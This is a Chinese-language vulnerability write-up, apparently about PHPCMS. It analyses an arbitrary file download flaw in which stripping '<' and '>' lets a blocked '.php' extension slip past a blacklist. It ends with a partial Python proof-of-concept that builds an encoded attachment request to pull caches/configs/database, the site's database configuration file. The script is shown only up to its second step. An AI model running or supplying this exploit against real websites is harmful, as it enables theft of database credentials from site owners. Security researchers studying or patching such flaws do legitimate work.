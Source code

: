 进行简单判断之后再次进行了赋值操作，而这两个参数都是$a_k解析而来，$s可控$f进行了一些过滤操作。下面又对$fileurl过滤

	if(preg_match('/(php|phtml|php3|php4|jsp|dll|asp|cer|asa|shtml|shtm|aspx|asax|cgi|fcgi|pl)(\.|$)/i',$fileurl) ) showmessage(L('url_error'));
后面又进行了if循环,而我们的目标就是进入最后一次循环中调用file_down()去下载任意文件。

	function file_down($filepath, $filename = '') {
		if(!$filename) $filename = basename($filepath);
		if(is_ie()) $filename = rawurlencode($filename);
		$filetype = fileext($filename);
		$filesize = sprintf("%u", filesize($filepath));
		if(ob_get_length() !== false) @ob_end_clean();
		header('Pragma: public');
		header('Last-Modified: '.gmdate('D, d M Y H:i:s') . ' GMT');
		header('Cache-Control: no-store, no-cache, must-revalidate');
		header('Cache-Control: pre-check=0, post-check=0, max-age=0');
		header('Content-Transfer-Encoding: binary');
		header('Content-Encoding: none');
		header('Content-type: '.$filetype);
		header('Content-Disposition: attachment; filename="'.$filename.'"');
		header('Content-length: '.$filesize);
		readfile($filepath);
		exit;
	}
其实就是个普通的下载函数，不普通在调用他的时候参数我们是可控的。

			if(preg_match("/^([\s\S]*?)([\x81-\xfe][\x40-\xfe])([\s\S]*?)/", $fileurl)) {
				$filename = str_replace(array("%5C", "%2F", "%3A"), array("\\", "/", ":"), urlencode($fileurl));
				$filename = urldecode(basename($filename));
			}
			$ext = fileext($filename);
			$filename = date('Ymd_his').random(3).'.'.$ext;
			$fileurl = str_replace(array('<','>'), '',$fileurl);
			file_down($fileurl, $filename);

关键点就在这，进过上面的层层过滤无论是单独的$s $f还是合在一起的$fileurl都不可能有什么危险后缀，但是这里对$fileurl进行了正则替换把<>换成空 ......也就是说我们可以这样进行拼接

	$s=test.ph + $f=>p = $fileurl=test.ph>p = test.php

接下来的问题就是怎么把自己带有payload的加密并且回显出来。老生常谈了用wap这里就不说了。

#### 漏洞利用
以数据库文件为例，生成下载链接访问下载就行。

	import requests

	def poc(host):
		step = '{}index.php?m=wap&a=index&siteid=1'.format(host)
		req = requests.get(url=step)
		for i in req.cookies:
			if i.name[-7:] == '_siteid':
				userid_flash = i.value
			else:
				print('Step1 is error')
		step1 = '{}index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=pad%3Dx%26i%3D1%26modelid%3D1%26catid%3D1%26d%3D1%26m%3D1%26s%3Dcaches/configs/database%26f%3D.p%25253chp'.format(host)
